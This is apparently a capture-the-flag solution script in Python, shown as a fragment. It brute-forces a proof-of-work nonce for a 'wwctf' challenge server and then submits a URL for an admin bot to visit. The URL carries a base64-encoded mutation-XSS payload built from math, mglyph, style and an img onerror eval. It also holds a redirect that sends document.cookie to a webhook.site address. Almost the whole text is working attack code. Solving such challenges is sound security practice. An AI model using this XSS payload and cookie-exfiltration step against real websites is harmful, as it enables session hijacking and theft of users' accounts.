 ```
    with Pool(processes=num_processes) as pool:
        while True:
            tasks = [
                (message, nonce + i * chunk_size, nonce + (i + 1) * chunk_size, prefix)
                for i in range(num_processes)
            ]
            results = pool.map(find_nonce, tasks)
            
            for result in results:
                if result is not None:
                    end_time = time.time()
                    nonce = result
                    print(f'Time taken: {end_time - start_time} seconds')
                    return nonce

            nonce += num_processes * chunk_size


if __name__ == "__main__":
    code_url = "https://saas.wwctf.com/api/report"
    response = requests.get(code_url)
    if not response.ok:
        print("Error fetching code:", response.status_code, response.text)
        exit(1)

    code_text = response.text
    match = re.search(r'data\s*=\s*["\']([a-f0-9]{32})["\']', code_text)
    if not match:
        print("Error: Could not find 'data' variable in the fetched code.")
        exit(1)

    data = match.group(1)
    print(f"Extracted data: {data}")

    print("Working on PoW...")
    nonce = proof_of_work(data)
    print(f"Found nonce: {nonce}")
    
    print("Submitting data to the endpoint...")
    payload = {
        "data": data,
        "nonce": nonce,
        "urlToVisit": "https://saas.wwctf%2bcom/?html=PG1hdGg%2BPG10ZXh0Pjx0YWJsZT48bWdseXBoPjxzdHlsZT48aW1nL3NyYz14IG9uZXJyb3I9ImV2YWwoYCdgK1VSTCkiPg%3D%3D#';window.location='//webhook.site/4a1d0a64-9b41-4fa8-9b9d-2aeae9735076/p'+document.cookie",
        "secretKey":"ibypassyou"

    }

    response = requests.post(code_url, json=payload)
    if response.ok:
        print("Response from server:", response.json())
    else:
        print("Error:", response.status_code, response.text)

```
